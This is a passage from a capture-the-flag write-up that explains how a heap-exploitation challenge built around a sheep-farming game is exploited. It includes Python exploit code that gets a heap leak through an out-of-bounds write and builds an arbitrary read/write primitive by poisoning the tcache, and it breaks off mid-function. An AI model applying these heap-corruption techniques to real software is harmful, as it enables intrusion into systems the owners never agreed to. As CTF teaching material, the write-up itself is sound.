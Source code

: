 ## Exploitation
### 1. Getting a heap leak and infinite money

We can use the second vulnerability to write the 64-bit pointer to one of the sheep chunks in the `value` field of the first sheep chunk after `game`. Now by calling `view` on the first sheep chunk we can get a heap leak, and then by selling it we can increase `game->wool` by a 64-bit pointer and effectively get infinite money. The infinite money is needed later to perform upgrades without running out of money!

```python
for i in range(20):
	buy(0)
for i in range(6, -1, -1):
	sell(i)
sell(19)	# move free_slot_hint to index 19
leak_idx = buy(0)
buy(0)	# the next pointer into game->sheep will be written out of bounds and into the sheep->value field of the first sheep chunk
heap_leak = int(view(leak_idx)[1])
heap_base = heap_leak - 0x380
log.success("heap base = " + hex(heap_base))
sell(19)	# sell the sheep whose 'value' is a 64-bit heap leak pointer to get rich! (with game->wool)
```

### 2. Arbitrary read/write

To get arbitrary write, I noticed that whatever address is written at the tcache head entry of the 0x20 tcachebin can be seen as a sheep by the program by giving the index -69 to the `game->sheep` array in the functions. As said before, we can call `upgrade_sheep()` on any sheep to construct an arbitrary value into its `wps` field bit-by-bit. If the value at the tcache head is a freed tcache chunk, its `sheep->wps` will basically be its `chunk->fd` pointer! So, we can change the `fd` pointer of the chunk at the head of tcache. If we then call `malloc` to allocated that chunk, whatever we wrote into its `fd` will be moved into the tcache head. Now, we can see the arbitrary value written into tcache head as the address of another sheep and construct an arbitrary value into its `wps` as well! This means if we write an arbitrary address at the `fd` pointer of the tcache chunk, we can get that address to be the next tcache head, and we can write any arbitrary value into that arbitrary address! (and we can alternatively call `view_sheep` on that address to do an arbitrary read on it). We can then free the chunk that we just allocated again to return the heap to its previous state! This gives us a stable and repeatable arbitrary read/write primitive.

```python
TCACHE_IDX = -69	# and index into game->sheep that will point to the 0x20-sized tcache head entry

for i in range(6):	# buy some more sheep with OOB indexes to increase game->num_sheep without filling game->sheep entries
	buy(0)

for i in range(18, 6, -1):	# sell all sheep to fill the tcachebin and also add the rest to the fastbins.
	sell(i)					# also, moves free_slot_hint to index 6 at the end of the loop.

# this sheep will be allocated at index 7, and we'll overwrite the fd pointer
# of its tcache chunk later to get arbitrary values into the tcache head.
# Also, this will be allocated from tcache, so the tcache count after this will be 6.
ARB_RW_SHEEP_IDX = buy(0)

# find the largest suffix of the binary representation of 'cur' that is also a prefix of 'val'
# used to know how many bits we don't need to re-write when constructing values bit-by-bit in bitwise_build().
# This is just an optimization to reduce interactions with the server and prevent timing out.
def shared_suffix_prefix(cur, val):
	for i in range(64, 0, -1):
```
